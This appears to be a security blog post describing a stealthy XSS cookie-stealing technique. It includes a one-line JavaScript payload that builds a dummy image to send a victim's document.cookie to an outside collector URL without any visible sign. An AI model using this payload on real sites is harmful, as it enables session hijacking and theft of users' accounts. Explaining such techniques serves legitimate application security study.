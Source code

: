title: Stealth Cookie Stealing (XSS technique)
publish: True
categories: [application security]

Everyone knows what XSS is, right? Good, I'll spare you the definition. A common use for XSS is stealing cookies to hijack sessions and gain access to restricted web content. Cookie stealing is typically done by forcing a target's browser to issue some sort of GET request to a server controlled by the attacker which accepts the target's cookie as a parameter and processes it in some way. In most cases, when a cookie stealing XSS attack is successful, it generates a visual clue which can tip off the target. While it is too late at this point, stealth has been compromised, and could be the difference between the user keeping the session active, or clicking 'log out' and rendering your stolen cookie invalid.

![Good ole' fashion cookie stealin'](/images/posts/cookie_monster.jpg)

About a year ago, I came up with a stealth technique for executing cookie stealing XSS attacks that I assumed was common knowledge. But after talking about the technique with several top web app security professionals, I realize that the technique may be more unique than I initially thought. Below is an example of the technique.

``` javascript
javascript:img=new Image();img.src="http://tools.lanmaster53.com/monster.php?cookie="+document.cookie;
```

For those that don't understand exactly what is going on here, basically, I'm using a dummy JavaScript image to launch a GET request. The first part of the script instantiates an image object, and the second part sets the source attribute of the image object. In this example, the source url is what you would use in any other cookie stealing attack. The key here is that once the source attribute is set, the browser fires off the request and stores the response in memory. I never use the instantiated image, the browser doesn't care, and the user is unaware that anything has happened. Stealth is maintained.
